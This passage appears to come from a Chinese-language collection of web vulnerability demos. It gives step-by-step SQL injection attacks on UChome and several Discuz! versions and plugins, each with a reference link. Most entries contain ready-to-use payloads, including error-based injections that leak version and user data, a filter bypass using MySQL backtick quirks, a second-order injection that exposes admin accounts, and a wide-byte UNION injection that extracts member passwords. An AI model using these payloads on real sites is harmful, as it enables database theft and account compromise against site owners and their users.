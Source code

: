 使用浏览器打开

参考链接：https://bugs.shuimugan.com/bug/view?bug_no=80359
#### 演示6：UChome 注入漏洞1
首先注册用户 然后新建一个相册 http://127.0.0.1/uchome/space.php?uid=2&do=album&view=me 打开这里点上传 新建完了之后 上传一个图片 完了之后 点进相册 然后在点刚刚上传的图片 点击管理图片 直接确认 然后抓包 把titie的那个改成 title%5B1' and (select 1 from (select count(),concat(version(),floor(rand(0)2))x from information_schema.tables group by x)a)#%5D 原始内容可能是title%5B1%5D 修改成上面的 就可以看到错误信息了

参考链接：https://www.seebug.org/vuldb/ssvid-93618
#### 演示7：UChome 注入漏洞2
注册用户后登陆 然后点击日志 创建新日志 然后打开BURP进行抓包 找一个没有用的POST选项 改成picids['] 然后在提交 就可以看到结果了


参考链接：https://www.seebug.org/vuldb/ssvid-93616
#### 演示8：Discuz! X2.5 521交友插件 jiaoyou.php SQL注入漏洞
http://ip/jiaoyou.php?pid=1
http://ip/jiaoyou.php?mod=search&residecity=
http://ip/jiaoyou.php?mod=search&resideprovince=
pid、residecity、resideprovince参数均存在SQL注入

参考链接：
https://www.unhonker.com/bug/1058.html
https://www.seebug.org/vuldb/ssvid-93641
https://www.seebug.org/vuldb/ssvid-93641
#### 演示9：Discuz! X2 V63积分商城插件 SQL注入漏洞
在discuz v63积分商城插件注入漏洞exp中并不需要斜杠、#号和—注释符。所以会执行$clean = preg_replace(“/’(.+?)’/s”, ”, $sql);原来SQL语句中两个单引号中间的内容就会被替换为空。并不会进入到下面的else分支。Else下面的所有操作均是对$clean变量的操作。所以绕过的思路就是把SQL语句放在两个单引号中间。对于mysql的一个特性， @`’` 是为空的，所以我们的攻击语句可以放到两个@`’`中间，即使GPC开启，单引号被转义为\’，而@`’`变成@`\’`对注入也是没有影响的，所以此绕过方法无限制。
即针对该注入漏洞的攻击EXP为：
http://www.cnseay.com/discuz/plugin.php?id=v63shop:goods&pac=info&gid=110 or @`’` and (select * from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b) or @`’`  or @`’` and (select * from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b) or @`’`

可以看到我们的注入语句被替换掉了，所以后面的检查字符的时候并没有发现注入语句。
参考链接：http://netsecurity.51cto.com/art/201303/386717.htm
#### 演示10：Discuz x1.5 x2.0 二次注射
访问http://xxxxx/forum.php?mod=misc&tid={1}&action=postappend&pid={2}进入回复主题界面。在发表回复的地方存在SQL注入。如输入“a',`subject`=(/*!select*/ group_concat(uid,':') from pre_common_member where groupid=1),comment='”。
刷新页面，可在主题回复中看到管理用户。
参考链接：https://www.webshell.cc/562.html
#### 演示11：Discuz! X2 forum_attachment.php sql注入漏洞
http://www.discuz.net/forum.php?mod=attachment&findpost=ss&aid=
链接中，aid参数存在SQL注入，但需要把SQL语句进行base64编码，如

参考链接：https://www.cnblogs.com/devi1o/articles/4874822.html
#### 演示12：Discuz！7.2/X1 第三方插件SQL注入及持久型XSS漏洞
http://xxxxxxxx/plugin.php?id=moodwall&action=edit_mood&moodid=2
moodid存在SQL注入。
参考链接：https://www.seebug.org/vuldb/ssvid-93710
#### 演示13：Discuz!论坛wap功能模块编码的注射漏洞
http://xxxxxxx/space.php?username=
username存在SQL注入，但可能此处会把’过滤成\’，如果是GBK编码的话，可使用宽字节注入的思路绕过。如设置payload为：/space.php?username=%cf'%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,password,50,51,52,53,54,55,56,57,database(),59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84%20from%20cdb_members%20where%20uid=1/*
参考链接：
http://www.vfocus.net/art/20080819/3755.html
https://www.jb51.net/hack/12858.html
#### 演示14：Discuz! pm.php注入
http://127.0.0.1/dede/member/pm.php?dopost=read&id=1